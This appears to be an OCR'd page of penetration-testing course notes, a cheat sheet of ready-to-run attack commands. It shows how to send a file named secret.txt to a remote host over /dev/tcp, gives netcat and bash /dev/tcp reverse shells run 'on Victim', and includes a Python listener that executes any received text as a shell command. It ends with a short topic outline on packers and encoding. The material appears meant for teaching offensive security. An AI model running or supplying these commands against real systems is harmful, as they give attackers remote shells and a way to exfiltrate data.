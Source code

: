 File Transfer with /dev/tcp
        On the receiving box:
          $ nc -lvp 1111 > devtcpfile.txt
        On the sending box:
          $ cat secret.txt > /dev/tcp/10.10.0.40/1111
        This method is useful for a host that does not have NETCAT available.


Reverse Shells

Reverse shell using NETCAT
        First listen for the shell on your device.
          $ nc -lvp 9999
        On Victim using -c :
          $ nc -c /bin/bash 10.10.0.40 9999
        On Victim using -e :
          $ nc -e /bin/bash 10.10.0.40 9999
          
Reverse shell using /DEV/TCP
        First listen for the shell on your device.
          $ nc -lvp 9999
        On Victim:
          $ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1


#Reverse shell Python3#
#!/usr/bin/python3
import socket
import subprocess
PORT = 1234        # Choose an unused port
print ("Waiting for Remote connections on port:", PORT, "\n")
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('', PORT))
server.listen()
while True:
    conn, addr = server.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024).decode()
            if not data:
                break
            proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output, err = proc.communicate()
            response = output.decode() + err.decode()
            conn.sendall(response.encode())
server.close()



Understanding Packing and Encoding
    Discuss the purpose of packers
    Perform Hexadecimal encoding and decoding
    Demonstrate Base64 encoding and decoding
    Conduct file transfers with Base64
